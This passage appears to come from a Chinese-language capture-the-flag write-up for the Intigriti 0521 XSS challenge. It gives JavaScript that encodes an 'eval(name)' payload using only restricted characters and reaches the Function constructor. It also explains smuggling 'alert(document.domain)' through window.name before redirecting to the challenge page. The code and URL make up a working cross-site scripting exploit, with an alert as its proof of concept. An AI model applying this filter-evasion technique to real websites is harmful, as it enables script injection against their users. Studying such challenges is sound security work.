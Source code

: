 
用來產生的完整程式碼：

``` js
const mapping = {
  a: '`${0/0}`[1]',
  b: '`${e}`[2]',
  c: '`${e}`[5]',
  d: '`${e[0]}`[2]',
  e: '`e`',
  f: '`${e[0]}`[4]',
  g: '`${e}`[15]',
  i: '`${e[0]}`[5]',
  j: '`${e}`[3]',
  l: '`${e}`[21]',
  m: '`${e}`[23]',
  n: '`${e}`[25]',
  o: '`${e}`[1]',
  r: '`${e}`[13]',
  s: '`${e}`[18]',
  t: '`${e}`[6]',
  u: '`${e[0]}`[0]',
  ".": '`.`'
}

function getString(str) {
  return str.split('').map(c => mapping[c] || 'errorerror:' + c).join('+')
}

const some = getString('some')
mapping['('] = '`${[][' + some + ']}`[13]'
mapping[')'] = '`${[][' + some + ']}`[14]'

mapping.v = '`${[][' + getString('some') + ']}`[23]'

const ans = 
  "[][" + 
  getString('some') + 
  "]["+
  getString('constructor') +
  "]`_${" + 
  getString('eval(name)') +
  "}```"

console.log('length:', ans.length)
console.log('======= Payload =======')
console.log(ans)
console.log('======= URL =======')
console.log('https://challenge-0521.intigriti.io/captcha.php?c=' + ans.replace(/\+/g, '%2b'))
```

有些人可能不知道為什麼 `eval(name)` 可以，這是因為 `window.name` 是個神奇的屬性，基本上同一個分頁的 name 會相同，所以我們只要自己新建一個 html，裡面寫 JS 並且設定 `window.name = 'alert(document.domain)'`，然後用 `location=` 跳轉到 PHP 那邊，那裡的 `name` 就會是我們剛剛設定好的。
